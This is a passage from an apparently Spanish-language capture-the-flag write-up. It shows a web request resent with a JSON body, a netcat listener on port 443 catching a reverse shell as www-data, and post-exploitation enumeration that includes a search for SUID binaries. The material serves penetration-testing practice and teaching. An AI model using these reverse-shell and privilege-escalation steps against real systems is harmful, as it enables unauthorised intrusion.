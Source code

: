 - Le damos click secundario a la petición que se realiza y seleccionamos la opción **Editar y reenviar**. El método lo debemos cambiar de **GET** a **POST** en el el **Cuerpo de la petición** agregamos `{"id":"c0","method":"checkWords","params":["en",[""]]}` y antes de envíar la petición, nos ponemos en escucha por el puerto 443 y la enviamos.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.0.0.25] from (UNKNOWN) [10.0.0.24] 38871
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Ya nos encontramos dentro del sistema y para trabajar más cómodos, vamos a hacer un [Tratamiento de la tty](/posts/tratamiento-tty). Ahora vamos a enumerar un poco el sistema para encontrar una forma de escalar privilegios, debido a que somos el usuario **www-data**:

```bash
www-data@ubuntu:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/var/www/html$ sudo -l 
[sudo] password for www-data: 
www-data@ubuntu:/var/www/html$ cd /
www-data@ubuntu:/$ find \-perm -4000 2>/dev/null
./bin/umount
./bin/ping6
./bin/ping
./bin/su
./bin/mount
./bin/fusermount
./usr/bin/chfn
./usr/bin/sudo
./usr/bin/chsh
./usr/bin/gpasswd
./usr/bin/newgrp
./usr/bin/mtr
./usr/bin/passwd
./usr/bin/traceroute6.iputils
./usr/lib/openssh/ssh-keysign
./usr/lib/eject/dmcrypt-get-device
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/pt_chown
./usr/sbin/pppd
./usr/sbin/uuidd
www-data@ubuntu:/$ cd /var/www/html/
www-data@ubuntu:/var/www/html$ ls -l
total 264
drwxr-xr-x  3 www-data www-data   4096 Apr 25  2018 006-final
drwxr-xr-x  2 www-data www-data   4096 Apr 25  2018 dir007key
drwxr-xr-x 41 www-data www-data   4096 Apr 25  2018 gnocertdir
-rwxr--r--  1 www-data www-data    354 Apr 24  2018 index.css
-rw-r--r--  1 www-data www-data    252 Apr 25  2018 index.html
-rw-r--r--  1 www-data www-data  39748 Apr 24  2018 logo.png
-rw-r--r--  1 www-data www-data      4 Apr 25  2018 rtm.log
drwxr-xr-x  2 www-data www-data   4096 Apr 24  2018 sev-home
-rw-r--r--  1 www-data www-data 184883 Apr 25  2018 sniper.png
-rw-r--r--  1 www-data www-data   2301 Apr 29  2018 space.gif
-rw-r--r--  1 www-data www-data   1414 Apr 29  2018 splashAdmin.php
-rw-r--r--  1 www-data www-data   1349 Apr 24  2018 terminal.js
www-data@ubuntu:/var/www/html$
```
